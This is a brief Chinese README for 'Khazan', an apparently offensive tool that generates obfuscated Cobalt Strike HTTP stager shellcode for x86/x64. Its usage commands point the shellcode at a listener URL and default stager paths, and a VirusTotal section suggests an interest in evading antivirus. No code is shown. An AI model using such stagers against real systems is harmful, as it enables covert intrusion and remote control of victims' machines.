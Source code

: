 # Khazan

## 1. 简介

一个 CS shellcode 生成器，用于生成适配 CS 的 shellcode，半成品。

## 2. 主要功能

【*】支持 http 协议的 shellcode

【*】支持 x64/x86种架构

【*】x64 架构下会对 shellcode 进行混淆

## 3. 使用说明

参数：

```
-a string
	选择生成 shellcode 的架构（x86/x64）
-u string
	指定监听的 url
```

生成 64位 shellcode：

```
Khazan.exe -a x64 -u http://127.0.0.1/FMsW
	/FMsW 为CS默认的64位stager请求路径，如果使用profile文件需要修改该路径
```

生成 32位 shellcode：

```
Khazan.exe -a x86 -u http://127.0.0.1/yn4A
	/yn4A 为CS默认的32位stager请求路径，如果使用profile文件需要修改该路径
```

## 4. VT

64 位 shellcode：
![](https://user-images.githubusercontent.com/84751437/229712692-074d5857-049f-4f0d-804e-db55c684222e.png)



